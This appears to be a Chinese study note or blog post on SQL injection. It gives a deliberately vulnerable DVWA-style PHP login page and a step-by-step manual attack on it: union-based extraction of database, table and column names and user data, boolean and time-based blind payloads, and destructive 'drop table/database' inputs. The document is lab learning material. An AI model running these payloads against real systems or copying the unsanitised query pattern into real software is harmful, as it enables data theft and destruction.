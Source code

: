 > 复习下SQL注入的知识点，希望有所提高。
# 0x00 前言
> 注入攻击的本质，是吧用户输入的数据当作代码执行，这里有两个关键条件，第一个是用户能控制输入；第二个是原本程序要执行的代码，拼接了用户输入的数据。"数据与代码分离"的原则可以说是专门为了解决输入攻击而生的。  --《白帽子讲web安全》

# 0x01 分类
1. 有报错或者内容回显
    - union注入等查询性质的
    - 直接添加一条执行性质的SQL语句注入等执行性质的 例如 `id=1';drop table test --`  
    > 这是一段DVWA上面输入low难度改编的源码，没有关闭报错，并有显示数据查询结果回显。
    ```
    //数据库：
    //create database sqltest;
    //use sqltest
    //create table users(id int, first_name varchar(20), last_name varchar(20) );
    //insert into users values(1,'admin','adminhaha');
    //insert into users values(2,'root','roothaha');
    /****************************************************************************/
    <?php
	if( isset( $_REQUEST[ 'Submit' ] ) ) {
		// Get input
		$id = $_REQUEST[ 'id' ];
	
		// Check database
		$query  = "SELECT first_name, last_name FROM users WHERE id = '$id';";
        //echo $query; //查看sql
		$mysql = mysqli_connect('localhost','root','********','sqltest',3306) or die('<script language="javascript"> alert("数据库繁忙");</script>  ');
		$result = mysqli_query($mysql,  $query );
		// Get results
		$html = '';
		while( $row = mysqli_fetch_assoc( $result ) ) {
			// Get values
			$first = $row["first_name"];
			$last  = $row["last_name"];
	
			// Feedback for end user
			$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
		}
	
	}	
    ?>
    <!DOCTYPE html>
    <html>
    <head>
        <title>SQL注入基础测试</title>
    </head>
    <body>
        <form action="index.php" method="GET">
            ID:<input type="text" Name="id">  
	        <input type="Submit" Name="Submit">
	    </form>
    <?php echo $html;?>
    </body>
    </html>
    ```
    > 这段代码除了添加单引号闭合之外没有其他的防注入的手段，加上没有关闭报错，单引号闭合就会很容易的被发现，大致注入过程如下
    ```
    index.php?Submit&id='
    //单引号出现异常，因为引号未闭合，mysql查询的时候报出异常，使mysqli_fetch_assoc()的参数$result出现问题 
    index.php?Submit&id="
    //双引号没有异常，说明采用单引号闭合

    1' and 2=1 --%20
    1' and 1=1 --%20
    1' or '1'='2
    -1' or 1=1 #
    //这些都是测试是否是注入点，注意两个横线后面有一个空格（%20）确认注入点后，理论上需要判断一些过滤规则，寻找一些可利用的函数或者关键字等。然后这里就跳过了。

    1' order by 1 #         //正常
    1' order by 2 #         //正常
    1' order by 3 #         //报错
    1' union select 1 #     //报错
    1' union select 1,1 #   //正常
    1' union select 1,1,1 # //报错
    //这个是查询当前的sql语句一共查询了几个字段。结论是两个，用了两个知识点，
    //一个是order by +数字，这个字句表示按照第几个查询的字段排序，因为只查询了两个字段，所以数字为3的时候报错，
    //第二个知识点是union查询前后查询字段数目必须一样前面查询了两个字段后面就一定要查询两个字段，否则就会报错

    -1' union select version(),database() #  //数据库软件版本  当前数据库名
    -1' union select @@version_compile_os,@@basedir #  系统信息，数据库所在目录
    ……
    //信息收集过程，相关的SQL函数和方法还有很多，@@datadir、@@temdir，user()、system_user()、current_user()session_user()等等，这个过程主要是摸清数据库的一些信息，然后根据数据库版本和类型之类的信息进行进一步的渗透。
    //比如经过上面的测试，这个数据库是MySQL数据库，版本是5.7.14。运行在Windows 64位系统上，那么进一步注入的思路就是利用Mysql5.0以上自带数据库：information_schema，这个数据库存储mysql下所有信息的数据库（数据库名，表名，列名）

    -1' union select group_concat(schema_name),system_user() from information_schema.schemata #
    //得到所有数据库名group_concat() 函数是将查询结果合并成一行

    -1' union select group_concat(table_name),1 from information_schema.tables where table_schema='sqltest
    //查询sqltest库下的表名，注意这里因为sqltest是一个字符串因此有两种写法：一种是闭合引号就像这个例子这样，还有就是采用16进制形式形如0x222a2d2d这种，不加引号，但是要加上#或者--（空格 or %20）注释掉后面的引号。

    -1' union select group_concat(column_name),1 from information_schema.columns where table_name='users' and table_schema='sqltest
    //利用得到的表名继续深入查询列名

    -1' union select first_name,last_name from users #
    //得到目标表中的所有数据，以上就是最最基础的联合注入过程。

    -1';drop database aaa #
    //然而这个实验中并不能执行这个操做，但是这个操做是确实存在的，
    ```
    > 感觉这个篇幅有点长了，说的有点啰里啰唆。先就到这吧。
2. 盲注
    - 基于报错的盲注
    > 还是使用上面的代码，但是这次输出$html的时候直接改成`<?php echo $html==''?'no':'yes'; ?>`（ 会稍微有点警告，可以在最上面加上`$html='';`,或者`error_reporting(0);`）然后就是一个简单的基于报错的注入了，报错注入基本原理就是利用在正常的一个参数后面and一个等式或者函数，等式成立或者函数返回真就会返回正常的页面，不成立就会返回错误或者是查询为空。这个要熟悉sql语言中的字符串操作的函数和子句，因为大多数时候报错注入手注的话都是把字符串切割成一个一个的字符猜解。MySQL常见函数可以参考[MySQL 函数 | 菜鸟教程](http://www.runoob.com/mysql/mysql-functions.html)，其他关系型数据库函数大体相同。然后还是放上这个系统注入过程
    ```
    //基于报错
    //测试注入点，和上面基本差不多，
    //查询要查询的信息的长度 length() 返回字符串长度，需要从1开始试，一直试到7，返回正确
    1' and length(database())=7 #

    //一个一个字符测试,ascii()函数返回一个字符的ascii码，substr(s,start,length)从字符串 s 的 start（从1开始） 位置截取长度为 length 的子字符串，然后还是一个一个ascii码试直到返回正确，然后测试下一个字符，直到得到整个字符串
    1' and ascii(substr(database(),1,1))=114 #

    //然后还是老套路利用MySQL的information_schema查库->查表->查列明，然后查询字段,limit子句：limit start,length 从start（从0开始）开始截取length行
    1' and ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))=105 #

    //以上大概就是一个针对MySQL5版本的一个基于报错的盲注的大致过程然后可以配合各种运算符进行运算
    ```
    
    - 基于时间的盲注
    > 主要是利用一些可以拖延时间的函数和if()配合，实现如果条件正确，就延时返回，如果正确就快速返回.
    ```
    //先修改上面的代码删除上面添加的<?php echo $html==''?'no':'yes'; ?>。
    //判断注入点，这次就不能使用上面的方法判断注入点了，使用sleep然后注意观察网页返回时间如果网页比正常卡顿说明存在注入点，不过感觉这种应该会影响服务器性能，一般会禁掉sleep吧，然后类似的函数还有benchmark(count,expr)将expr执行count次，expr可以选一些解码什么函数
    1' and sleep(100) #

    //开始注入，构造if语句
    1' and if(1=2,sleep(10),'a')=char(97) #
    //然后剩下的就是和刚才的基于报错的盲注一样，再1=2那里一步一步的注入就行了
    ```
# 0x02 工具
> 要说sql注入最著名的工具就一定是sqlmap了，这个工具你--help可能觉得没什么，但是你-hh就会发现这个工具的厉害之处，这个文档可以长到超过百度翻译5000字字数限制(我也不知道这个是怎么算的)
![超过字数限制](https://i.loli.net/2019/03/25/5c9875a64452c.png)

- 编码工具















# 0x02 注入技巧及常见注意事项
> 这个标题有点重，各种针对数据库，针对各种函数绕过的奇淫技巧数不胜数，各种利用方式也数不胜数，其中要注意的点也有很多
- 写入木马
- 提权
[SqlMap](https://github.com/sqlmapproject/sqlmap/wiki/Features)
[nosql数据库注入](https://www.anquanke.com/post/id/97211)
[SQL注入由浅入深](https://zhuanlan.zhihu.com/p/23569276)
